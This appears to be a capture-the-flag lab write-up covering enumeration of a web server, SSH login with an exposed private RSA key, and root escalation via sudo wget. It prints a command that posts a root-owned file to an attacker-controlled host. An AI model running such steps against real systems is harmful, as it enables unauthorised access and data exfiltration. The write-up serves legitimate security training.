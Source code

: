 # Enumeration

A quick nmap scan reveals that ports 22 and 80 are open. We follow up with a detailed scan.

![bc580b5f2b9dd855f491f47cf5ce2a34.png](./_resources/bc580b5f2b9dd855f491f47cf5ce2a34.png)

![0febb921978f368d9cefc6dcfab987ad.png](./_resources/0febb921978f368d9cefc6dcfab987ad.png)

The web server displays the Apache2 Ubuntu Default Page, but if we look at the source code we find a potentially useful comment.

![8949208ba9e34a2f666c7501117ceadb.png](./_resources/8949208ba9e34a2f666c7501117ceadb.png)

Let's use gobuster to find any possible directories of interest. Run `gobuster dir -u http://10.10.21.149 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
`. The only directory we find is `/sitemap`, which leads us to a template for Unapp.

![cdf3413a49c3cb93602dcf32dd28edb9.png](./_resources/cdf3413a49c3cb93602dcf32dd28edb9.png)

We can also scan the web server with `nikto -h 10.10.21.149`, although nothing of note comes up. At this point we're a bit stuck, so let's run gobuster again using the directory we found. After running gobuster through a few different wordlists, we eventually find something interesting using the `common.txt` wordlist that comes with dirbuster. Run `gobuster dir -u http://10.10.21.149/sitemap -w /usr/share/dirb/wordlists/common.txt
`. 

![499bc967bcc63eaa6f32342ceb42fc0e.png](./_resources/499bc967bcc63eaa6f32342ceb42fc0e.png)

Note that we have access to the `/.ssh` subdirectory. Navigating to it gives us an RSA key.

![b206b119c5479f084be6319a1418555a.png](./_resources/b206b119c5479f084be6319a1418555a.png)

<br>

# Exploitation

The fact that a private RSA key was easily accessible is a major vulnerability. Since we know that SSH is running on port 22, we can try to exploit this vulnerability in the most natural way. We found a potential username earlier in the source code of the default Apache2 web page, so we can try SSHing into the machine with this. Use `chmod 600 id_rsa` to give the RSA key the correct permissions, then SSH in using `ssh -i id_rsa <username>@<target IP>`.

![9dd68ece514c07bae5417f9cca35fcc9.png](./_resources/9dd68ece514c07bae5417f9cca35fcc9.png)

Success! From here, we gain initial access and we easily find the user flag.

![1ea7ea9754c1d240bf4eea6624ecea95.png](./_resources/1ea7ea9754c1d240bf4eea6624ecea95.png)

<br>

# Post-exploitation

Let's begin looking for privilege escalation methods. Using `sudo -l`, we see that Jessie is able to run `wget` with root privileges.

![32d77136d8f026c6db258ab4d7429633.png](./_resources/32d77136d8f026c6db258ab4d7429633.png)

We can use this to our advantage by setting up a netcat listener on our attacking machine and using wget (with root privileges) to send any POST request we want. Set up a netcat listener on the attacking machine. Making an educated guess at the location (and file name) of the root flag, we run `sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<attacker IP>:<port>
`.  Our netcat listener receives the POST request, and the root flag is displayed.

![3b71f118c5e0654783bd6712a062cf8a.png](./_resources/3b71f118c5e0654783bd6712a062cf8a.png)

![b3896484e5528ef1898704ca2ac1f5e9.png](./_resources/b3896484e5528ef1898704ca2ac1f5e9.png)
